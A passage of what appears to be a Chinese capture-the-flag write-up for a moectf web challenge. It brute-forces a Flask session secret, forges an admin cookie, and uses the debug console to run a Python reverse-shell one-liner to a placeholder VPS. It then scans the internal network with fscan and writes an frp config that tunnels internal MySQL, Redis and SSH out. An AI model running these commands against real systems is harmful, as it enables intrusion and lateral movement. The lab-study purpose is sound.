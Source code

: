 ```python
if __name__=="__main__":
    while(True):
        secret_key="This-random-secretKey-you-can't-get" + os.urandom(2).hex()
        cookie="eyJwb3dlciI6Imd1ZXN0IiwidXNlciI6InR0eWNwMyJ9.ZRu0Eg.DIaxwqzA0edR6sEOY02RbrWzQ5w"
        if "power" not in FSCM.decode(cookie,secret_key):
            print(FSCM.decode(cookie,secret_key),"no")
        else:
            print(secret_key,"yes")
            break

```

成功爆破出secret_key

```
This-random-secretKey-you-can't-get8b3e
```

然后将`{'power':'admin','user':'ttycp3'}`用secret_key加密替换cookie，发现主页多出来个PIN码，访问`/console`路由输入PIN码，在自己的vps开启监听，输入反弹shell命令：

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("your-vps-ip",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

反弹成功后在根目录拿到第一段flag

```
moectf{Information-leakage-Is-dangerous!
```

根据提示我们用fscan扫描内网段，查看`/etc/hosts`文件发现有两个ip，那就扫描这个网段的端口

```
./fscan -h 172.20.1.1/16
```

![image-20231003231204453](https://ttycp3.oss-cn-beijing.aliyuncs.com/img/image-20231003231204453.png)

知道`hint.zip`密码为`22-3306-6379-8080`,根据hint的提示，我们知道要利用frp工具进行内网穿透拿到mysql服务器和redis服务器上的flag。靶机提供的frpc.ini权限不足无法修改，我们在`/tmp`目录自己写一个frpc.ini:

```
[common]
server_addr = your-vps-ip
server_port = 7002

[mysql]
type = tcp
local_ip = 172.20.0.3
local_port = 3306
remote_port = 3309

[redis]
type = tcp
local_ip = 172.20.0.2
local_port = 6379
remote_port = 6380
[ssh]
type = tcp
local_ip = 172.20.0.2
local_port = 22
remote_port =30
```
